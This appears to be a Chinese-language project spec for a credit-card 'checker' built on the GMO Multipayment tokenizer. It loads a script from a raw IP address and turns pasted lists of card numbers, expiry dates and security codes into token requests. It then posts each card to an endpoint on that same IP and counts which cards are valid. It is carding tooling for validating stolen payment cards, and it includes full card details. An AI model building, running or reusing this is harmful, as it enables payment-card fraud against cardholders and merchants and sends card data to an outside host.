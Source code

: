 ### 项目初始化 获取TokenAPI 方法(由服务商提供-程序员只需要调用)
```
    <script src="https://45.138.68.37:39353/down/eJdoqqJzmIEt.js"></script>
	   Multipayment.init(__ID__)
	   let userscanner ={
          holdername: 'JODI WI',
          cardno: 4897882223258590,           
          expire: 202711,                    
          securitycode: 347
	   }
	   Multipayment.getToken(userscanner, 'gmoResponseHandler');
	   //gmoResponseHandler 为回调JSONP函数
	   
	  function gmoResponseHandler(response){
	   if (response.resultCode == '000') {
	   console.log('无法生成TOKEN成功');
      } else {
        console.log('无法生成TOKEN');
        // Failed to create token for the card
      }}
```
### 项目开始
#### 通过用户的输入正则匹配userscannern内容
```
若用户在<textarea></textarea>输入如下内容
5241350000244441|201101|221
5241350000244442|201102|222
5241350000244443|201103|223
将通过正则表达式产生如下let arr =数组【{
          holdername: 'JODI WI',
          cardno: 5241350000244441,           
          expire: 201101,                    
          securitycode: 221
	  	 },
		 {
          holdername: 'JODI WI',
          cardno: 5241350000244442,           
          expire: 201102,                    
          securitycode: 222
	   },
	   {
          holdername: 'JODI WI',
          cardno: 5241350000244443,           
          expire: 201103,                    
          securitycode: 223
	   }】
```
### 请求接口（http://45.138.68.37:5139/api/user/carstate） POST
#### 循环通过数组每一个item来请求接口（不能用定时器）
```
access_cardno:"账号cardno"
access_token：TOKEN
```

### 返回成功后 根据返回值 
#### 统计 失败数量 和 成功数量
#### 展现 失败卡密 和 成功卡密
